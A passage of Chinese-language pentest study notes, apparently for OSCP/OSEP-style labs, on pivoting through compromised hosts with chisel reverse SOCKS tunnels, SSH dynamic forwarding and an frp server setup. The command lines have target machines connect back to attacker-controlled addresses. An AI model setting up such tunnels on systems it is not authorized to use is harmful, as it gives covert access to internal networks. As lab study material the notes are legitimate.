 ```
远程端口转发靶机445端口到本地445


### chisel配置动态端口转发

kali执行
```
./chisel server -p 8000 --reverse
```

客户端执行
```
./chisel client 192.168.45.211:8000 R:socks
```

```/etc/proxychains4.conf```配置

```
socks5  127.0.0.1 1080
```

### OSEP里的socks转发方法，我觉得好像不如上面那个

1. 在kali开启一个Chisel服务
```
./chisel server -p 8080 --socks5
```

2. 在kali使用ssh转发流量
```
sudo sed -i 's/#PasswordAuthentication yes/PasswordAuthentication yes/g' /etc/ssh/sshd_config

sudo systemctl start ssh.service

ssh -N -D 0.0.0.0:1080 localhost
```

3. 在widows客户端连接kali服务端
```
chisel.exe client 192.168.119.120:8080 socks
```

## frp动态转发

1. 服务端配置，frps.ini
```
[common]
bind_port = 7000 
```

服务端运行：
```
┌──(root💀kali)-[~/frp/frp_linux]
└─# ./frps -c frps.ini
2022/05/01 08:30:03 [I] [root.go:200] frps uses config file: frps.ini
2022/05/01 08:30:03 [I] [service.go:194] frps tcp listen on 0.0.0.0:7000
2022/05/01 08:30:03 [I] [root.go:209] frps started successfully
